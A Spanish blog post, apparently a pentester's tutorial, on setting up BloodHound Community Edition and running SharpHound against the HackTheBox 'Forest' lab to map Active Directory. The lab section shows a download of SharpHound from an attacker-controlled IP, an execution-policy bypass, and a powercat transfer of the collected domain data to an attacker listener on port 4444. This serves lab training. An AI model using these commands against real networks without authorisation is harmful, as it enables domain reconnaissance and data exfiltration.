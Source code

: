 
---
title: "Cómo Configurar BloodHound Community Edition"
summary: "Explicación rápida sobre cómo poner en funcionamiento BloodHound en unos minutos. Esta publicación incluye una guía de instalación paso a paso de **BloodHound**, así como la descarga de **SharpHound** y su carga en una máquina para mapear una red de Active Directory."
categories: ["Post","Blog",]
tags: ["tool"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-11

---

## BloodHound 
**BloodHound** es una herramienta poderosa y ampliamente utilizada en el campo de la ciberseguridad, particularmente para los evaluadores de penetración en entornos corporativos. Está diseñada para mapear y analizar las estructuras de Active Directory, ayudando a identificar configuraciones de seguridad incorrectas y posibles rutas de ataque que un adversario podría explotar para escalar privilegios u obtener acceso a recursos confidenciales.

**BloodHound** opera mediante la recopilación y visualización de relaciones dentro de un dominio de AD. Estas relaciones incluyen membresías de grupos, permisos de usuario, relaciones de confianza y más. La fortaleza de la herramienta radica en su capacidad para descubrir cadenas complejas de privilegios que podrían ser invisibles para los administradores que auditan manualmente la seguridad de AD.

Realizaremos una instalación rápida paso a paso de la versión comunitaria de **BloodHound**, así como un pequeño tutorial paso a paso sobre cómo ejecutar **BloodHound** y **SharpHound** tomando como ejemplo la máquina [Forest](https://s3ntinl.github.io/pt-pt/posts/forest/) de HackTheBox. ¡Échale un vistazo si aún no lo has hecho a mi post!

¡Comencemos!

- - -
## Instalación
Primero, necesitamos instalar _Docker_:

```bash
kali@kali:~$ sudo apt install -y docker.io

kali@kali:~$ sudo systemctl enable docker --now
```

Luego, crea el grupo _docker_ si no existe:

```bash
kali@kali:~$ sudo groupadd docker
```

Añade tu usuario al grupo _docker_:

```bash
kali@kali:~$ sudo usermod -aG docker $USER
```

Ahora, instala **docker-compose** desde [github](https://github.com/docker/compose/). Además, recuerda otorgarle derechos de ejecución al binario y agregarlo al directorio `/usr/bin`.

>Ten en cuenta la arquitectura de tu Linux a la hora de descargar Docker-Compose. Yo utilizo Kali Linux ARM, pero tu versión puede ser diferente.

```bash
kali@kali:~$ mv ./docker-compose-linux-aarch64 docker-compose
kali@kali:~$ chmod +x ./docker-compose
kali@kali:~$ mv ./docker-compose /usr/bin/
```

Por último, necesitamos copiar el archivo `docker-compose.yml` de **BloodHound** para guardarlo localmente:

```bash
kali@kali:~$ sudo wget https://ghst.ly/getbhce -O docker-compose.yml
kali@kali:~$ docker-compose up
```

**BloodHound** estará disponible en el puerto 8080.
- - -
## SharpHound
**SharpHound** es el componente de recopilación de datos de BloodHound. Es una herramienta de C# diseñada para recopilar información de entornos de Active Directory, que luego BloodHound utiliza para mapear y analizar rutas de ataque. SharpHound recopila datos como sesiones de usuario, membresías de grupos, listas de control de acceso (ACL) y relaciones de confianza, lo que brinda a los evaluadores de penetración y analistas de seguridad una vista detallada del entorno.

Los datos recopilados se almacenan en archivos JSON, que luego se importan a BloodHound para visualización y análisis. Juntos, SharpHound y BloodHound son un dúo poderoso para identificar y comprender las debilidades de seguridad en los dominios de AD.

- - -
## Uso de BloodHound y SharpHound

Primero, iniciemos sesión en **BloodHound**. Ya lo tenemos en ejecución, por lo que debemos acceder a él en `http://localhost:8080`.

![bloodhound1](/img/bloodhound/bloodhound1.png)

> La primera vez que accedamos a **BloodHound**, necesitaremos ingresar la contraseña generada aleatoriamente que se encuentra en la ventana de terminal donde se está ejecutando `docker-compose`. Luego, necesitaremos cambiarla. El usuario predeterminado es **admin**.

![bloodhound9](/img/bloodhound/bloodhound9.png)

Ahora, en la pestaña _Descargar recopiladores_, podemos descargar la última versión de **SharpHound**:

![bloodhound3](/img/bloodhound/bloodhound3.png)

Aquí, selecciona **SharpHound**, ¡y estamos casi listos para comenzar a recopilar datos! Solo quedan unos pocos pasos más:

![bloodhound4](/img/bloodhound/bloodhound4.png)

A continuación, carga el ejecutable **SharpHound** en la máquina Windows cuyo Active Directory deseas mapear. Desde nuestra máquina atacante, servimos **SharpHound** desde un servidor _Python_:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound/sharphound]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde la máquina Windows, descargamos **SharpHound** con el siguiente comando:

```powershell
PS C:\Users\svc-alfresco\Desktop> iwr -uri http://10.10.14.18/SharpHound.ps1 -Outfile SharpHound.ps1
```

Después de transferirlo a la máquina Windows, podemos importarlo a PowerShell:

```powershell
PS C:\Users\svc-alfresco\Desktop> powershell -ep bypass

PS C:\Users\svc-alfresco\Desktop> Import-Module .\Sharphound.ps1
```

Ahora, podemos ejecutar el script para recopilar toda la información del dominio. **SharpHound** se basa principalmente en consultas `LDAP` para recopilar datos de Active Directory. Dado que las consultas LDAP son una parte estándar de la comunicación de dominio, cualquier usuario autenticado en el dominio puede ejecutarlas, por lo que SharpHound no requiere privilegios administrativos para la mayoría de sus operaciones.

```powershell
PS C:\Users\svc-alfresco\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop\ -OutputPrefix "forest"
```

Después de la ejecución, veremos un archivo **zip** con toda la información. Eso es lo que necesitamos transferir de vuelta a nuestra máquina atacante. El archivo .bin que **BloodHound** genera es un archivo binario que se utiliza como caché para datos preprocesados. Cuando importa archivos JSON recopilados por SharpHound en BloodHound, procesa los datos y los almacena en una base de datos Neo4j.

El archivo `.bin` sirve como caché local de estos datos procesados ​​para mejorar el rendimiento, pero no necesariamente necesitamos transferirlos de vuelta a nuestra máquina, por lo que lo ignoraremos.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/10/2025   9:29 AM          43554 forest_20250110092905_BloodHound.zip
-a----        1/10/2025   9:15 AM        1942029 SharpHound.ps1

```

Podemos usar nuestro método de transferencia favorito, yo usaré `powercat.exe`:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> powercat -c 10.10.14.18 -p 4444 -i C:\Users\svc-alfresco\Desktop\forest_20250110092905_BloodHound.zip
```

En nuestra máquina atacante, necesitamos abrir un receptor `netcat` para recibir los datos:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound]
└─$ sudo nc -nlvp 4444 > bloodhound.zip
listening on [any] 4444 ...
connect to [10.10.14.18] de (DESCONOCIDO) [10.10.10.161] 50906
```

Una vez que tengamos el archivo zip en nuestra máquina, vamos a subirlo a **BloodHound**. Primero, presione la opción _Administración_.
![bloodhound2](/img/bloodhound/bloodhound2.png)

Importe el archivo zip en la opción _Ingesta de archivos_, en la sección _Recopilación de datos_:

![bloodhound10](/img/bloodhound/bloodhound10.png)

Haga clic y seleccione el archivo _zip_:

![bloodhound5](/img/bloodhound/bloodhound5.png)

¡Genial! Se subió con éxito.

![bloodhound6](/img/bloodhound/bloodhound6.png)

Enseñar cómo hacer consultas con **BloodHound** no está dentro del alcance de esta publicación, pero ejecutemos una consulta rápida "_Shortest Paths to Domain Admins_" para verificar si la ingesta de datos fue exitosa.
![bloodhound7](/img/bloodhound/bloodhound7.png)

¡Funciona! Ahora tiene una instancia de **BloodHound** completamente funcional y en funcionamiento, lista para mapear y analizar su entorno de Active Directory.

## Detener la instancia

Detener la instancia es tan fácil como presionar `Ctrl+C` en la ventana de terminal donde se está ejecutando `docker-compose`.

![bloodhound8](/img/bloodhound/bloodhound8.png)

Si desea configurarlo nuevamente, simplemente ejecute `docker-compose up` y estará listo.

Espero que esta guía te haya resultado útil para configurar todo sin problemas, ya que configurar un entorno de **BloodHound** puede ser complicado al principio. ¡Pruébalo!